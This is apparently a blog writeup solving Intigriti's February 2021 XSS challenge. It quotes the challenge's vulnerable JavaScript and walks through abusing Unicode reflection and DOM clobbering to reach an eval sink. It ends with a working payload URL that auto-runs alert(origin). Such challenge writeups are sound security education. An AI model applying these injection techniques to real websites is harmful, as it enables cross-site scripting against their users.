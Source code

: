 ```yaml
---
weight: 4
title: "Intigriti's February XSS Challenge Writeup"
date: 2021-02-21T16:00:00+04:00
lastmod: 2021-02-21T16:00:00+04:00
draft: false
author: "Davwwwx"
authorLink: "/about"
description: ""
resources:
- name: "featured-image"
  src: "featured-image.png"

tags: ["challenge", "xss", "intigriti", "unicode", "eval", "DOM clobbering"]
categories: ["Challenges"]

lightgallery: true
toc:
  enable: true
---
```


This month’s challenge, made by [Holme](https://twitter.com/holme_sec), was a little bit different than the ones I have previously solved as it had a server-side processing issue.
<!--more-->

Vulnerable page - [https://challenge-0221.intigriti.io/](https://challenge-0221.intigriti.io/)\
Vulnerable script - [https://challenge-0221.intigriti.io/script.js](https://challenge-0221.intigriti.io/script.js)


### Issue 1 - Unicode characters improper processing

Digging into the [embedded script](https://challenge-0221.intigriti.io/script.js) (see the code below) we can see there is no direct source that could reach the only dangerous sink (`eval`) at line **57**:

```javascript
function startGrade() {
  var text = document.getElementById("assignmentText").value;
  checkLength(text);
  result = window.result || {
    message: "Your submission is too short.",
    error: 1,
  }; //If the result object hasn't been defined yet, the submission must be too short
  if (result.error) {
    endGrade();
  } else {
    getQAnswer();
    if (!passQuiz()) {
      result.message = "We don't allow robots at the Unicodeversity (yet)!";
      result.error = 1;
    } else {
      result.grade = "ABCDEF"[Math.floor(Math.random() * 6)]; //Don't tell the students we don't actually read their submissions
    }
    endGrade();
  }
}

function endGrade() {
  document.getElementById("message").innerText = result.message;
  if (result.grade) {
    document.getElementById(
      "grade"
    ).innerText = `You got a(n) ${result.grade}!`;
  }
  document.getElementById("share").style.visibility = "initial";
  document.getElementById(
    "share-link"
  ).href = `https://challenge-0221.intigriti.io/?assignmentTitle=${
    document.getElementById("assignmentTitle").value
  }&assignmentText=${document.getElementById("assignmentText").value}`;
  delete result;
}

function checkLength(text) {
  if (text.length > 50) {
    result = { message: "Thanks for your submission!" };
  }
}

function getQAnswer() {
  var answer = document.getElementById("answer").value;
  if (/^[0-9]+$/.test(answer)) {
    if (typeof result !== "undefined") {
      result.questionAnswer = { value: answer };
    } else {
      result = { questionAnswer: { value: answer } };
    }
  }
}

function passQuiz() {
  if (typeof result.questionAnswer !== "undefined") {
    return eval(result.questionAnswer.value + " == " + question);
  }
  return false;
}

var question = `${Math.floor(Math.random() * 10) + 1} + ${
  Math.floor(Math.random() * 10) + 1
}`;

document.getElementById("question").innerText = `${question} = ?`;

document.getElementById("submit").addEventListener("click", startGrade);

const urlParams = new URLSearchParams(location.search);
if (urlParams.has("autosubmit")) {
  startGrade();
}
```

It is a common behavior for web apps to reflect an input's name or id if provided via request body or query string, so does this app (escaping, unfortunately).
![Escaped reflected parameter](escapedrefparam.png "Escaped reflected parameter")

But if we try a Unicode sequence (`բարև`), we can see it doesn't get processed normally.
![Unicode reflected parameter](unicoderefparam.png "Unicode reflected parameter")

The first part of a Unicode character byte pair gets rendered and the second pair is getting reflected as is,
for example, in the case of letter `բ` (**U+0562**), **05** gets rendered and **62** is being returned.

### Issue 2 - DOM clobbering as a source to the dangerous sink

Now we can escape the reflection point with a doublequote using some character like `∀` (**U+2200**), but we cannot use event handlers because of **CSP** nor can construct an inline `script` element as we cannot guess a server-generated nonce value.
```CSP
script-src 'strict-dynamic' 'nonce-iR/JMMPv7suDLRND7rsPGvDzJxU=' 'unsafe-eval' http: https:;object-src 'none';base-uri 'none';
```

As said above, looking for DOM vulnerabilities, the only usable sink is `eval` (at line **56**  in the original script) in `passQuiz` function.
```Javascript
function passQuiz() {
  if (typeof result.questionAnswer !== "undefined") {
    return eval(result.questionAnswer.value + " == " + question);
  }
  return false;
}
```

And to reach it we should be able to control either `result.questionAnswer.value` or `question` variable.\
No source reaches `question`, but in line **4** we can see that result can be taken from the `window` object.
```Javascript
function startGrade() {
  var text = document.getElementById("assignmentText").value;
  checkLength(text);
  result = window.result || {
    message: "Your submission is too short.",
    error: 1,
```

So to set its value we should abuse [DOM clobbering](https://portswigger.net/web-security/dom-based/dom-clobbering). And the rendered payload should look something like this
```html
<elem id="result">
<elem id="result" name="questionAnswer" value="alert(origin)//">
```

Looking through [MDN documentation](https://developer.mozilla.org/en-US/docs/Web/HTML/Attributes), the only usable element that has `value` attribute is `<data>` as only its first two letters (**da**) can be embedded as a hexadecimal value to start a tag normally instead of a gibberish.

Finally we can construct our payload `?assignmentTitle=∀㸀㳚ta%20id=result㸀㳚ta%20id=result%20name=questionAnswer%20value=alert(origin)//&autosubmit`

- `∀` (**U+2200**) to render a doublequote (**"**),
- `㸀` (**U+3E00**) to render a greater than sign (**>**),
- `㳚` (**U+3CDA**) to render a less than sign (**<**) and reflect **DA** characters to start the `<data>` tag,
- and `autosubmit` query parameter to execute `startGrade` function without user interaction (line **71**).

Which should result in something like this being injected into the page
```html
"00>00<data id=result>00<data id=result name=questionAnswer value=alert(origin)//
```

![Pop the alert](alert.png "Pop the alert")

The final URL - [https://challenge-0221.intigriti.io/?assignmentTitle=∀㸀㳚ta%20id=result㸀㳚ta%20id=result%20name=questionAnswer%20value=alert(origin)//&autosubmit](https://challenge-0221.intigriti.io/?assignmentTitle=∀㸀㳚ta%20id=result㸀㳚ta%20id=result%20name=questionAnswer%20value=alert(origin)//&autosubmit)
